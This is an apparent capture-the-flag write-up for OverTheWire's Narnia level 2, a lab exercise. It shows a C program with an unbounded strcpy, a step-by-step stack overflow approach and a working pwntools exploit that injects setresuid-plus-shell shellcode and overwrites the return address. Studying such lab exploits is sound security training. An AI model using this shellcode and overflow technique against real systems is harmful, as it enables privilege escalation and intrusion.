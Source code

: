 ```yaml
---
title: Narnia2

published: 2025-06-19

description: ShellCode with buffer overflow

tags: [pwn, shellcode, buffer overflow]

category: overthewire-narnia
---
```


# Narnia 2

## C File

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
    char buf[128];

    if(argc == 1){
        printf("Usage: %s argument\n", argv[0]);
        exit(1);
    }
    strcpy(buf,argv[1]);
    printf("%s", buf);

    return 0;
}
```


## Approach

The first thing we can see when looking at the code is that the `strcpy` is unsafe. If `argv[1]` is larger than the buffer this will overflow onto the next items on the stack

This means we can rewrite the return address and jump somewhere

Lets set the return address to the `buf` variable and fill it with shellcode that will be executed

## Solution

```python
from pwn import *
context.arch = 'i386'
context.os = 'linux'
payload = asm(shellcraft.setresuid() + shellcraft.sh())
payload += b'A' * (132-len(payload))
payload += p32(0xffffd4ec)
#p = gdb.debug(["/narnia/narnia2", payload], gdbscript="source /opt/gef/gdbinit.py")
p = process(["/narnia/narnia2", payload])
p.interactive()
```

First we need to find the offset. We can use `pwn cyclic` and pass that as our argument and use gdb to find out what address it jumps to

Doing that we get an adress of `0x62616169` which we can look up with `pwn cyclic -l 0x62616169` to be an offset of 132

So now we need to craft a payload in the form of shellcode + rest of the overflow + address to buf

We can get the address to buf using gdb by seeing the arguments passed to the strcpy

Then we send the payload, get our shell, and open the flag

## Conclusion

Be very careful with C string functions. Most do not check for size and can result in overflowing the stack or heap.

Use functions that take in size like `strncpy` instead to avoid overflowing
